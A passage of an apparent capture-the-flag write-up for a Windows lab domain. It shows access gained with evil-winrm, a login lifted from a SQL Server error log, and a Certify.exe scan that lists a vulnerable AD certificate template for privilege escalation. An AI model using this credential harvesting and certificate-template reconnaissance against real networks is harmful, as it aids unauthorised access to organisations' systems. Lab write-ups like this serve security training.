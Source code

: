 ### Leaked Passwords

Using evil-winrm I was able to get access to the system  
While checking for interesting files I stumbled across a SQLServer Log called ERRORLOG.BAK

In that file we can identify a new user account and a password  

```powershell
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'CENSORED'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

# Escalation

## Local Enumeration

As always I started to enumerate again using the newly gathered credentials  
First thing I checked was the groups I'm in which made me aware to check for an AD Certificate Service

```powershell
GROUP INFORMATION
-----------------
Everyone
BUILTIN\Remote Management Users
BUILTIN\Users
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Certificate Service DCOM Access
NT AUTHORITY\NETWORK
NT AUTHORITY\Authenticated Users
NT AUTHORITY\This Organization
NT AUTHORITY\NTLM Authentication
```

Checking for vulnerable Certificate Templates

```powershell
.\Certify.exe find /vulnerable
```

```powershell
[!] Vulnerable Certificates Templates :

CA Name                               : dc.sequel.htb\sequel-DC-CA
Template Name                         : UserAuthentication
Schema Version                        : 2
Validity Period                       : 10 years
Renewal Period                        : 6 weeks
msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
Authorized Signatures Required        : 0
pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
...
```
